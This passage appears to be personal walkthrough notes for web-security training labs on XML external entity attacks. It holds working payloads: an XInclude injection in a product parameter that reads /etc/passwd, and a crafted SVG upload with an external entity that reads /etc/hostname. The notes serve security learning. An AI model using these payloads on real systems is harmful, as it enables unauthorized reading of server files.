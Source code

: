 ```bash
Go to: "View details"
Intercept is on
Click "Check stock"
Send to repeater
Intercept is off
Change:

productId=2&storeId=1

To

productId=
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
&storeId=1

```

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220516230208.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220516230240.png)

### Exploiting XXE via image file upload
```bash

#### This lab lets users attach avatars to comments and uses the Apache Batik library to process avatar image files.

#### To solve the lab, upload an image that displays the contents of the `/etc/hostname` file after processing. Then use the "Submit solution" button to submit the value of the server hostname.


Go to: "View post"

Create an .svg file called "image.svg"
Content:

<?xml version="1.0" standalone="yes"?>
<!DOCTYPE host [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg"
    xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
    <text font-size="15" x="0" y="16">&xxe;</text>
</svg>

Input:
Comment:

comment

Name:

name

Avatar:

image.svg

Email:

email@email.com

Intercept is on
Click "Post comment"
```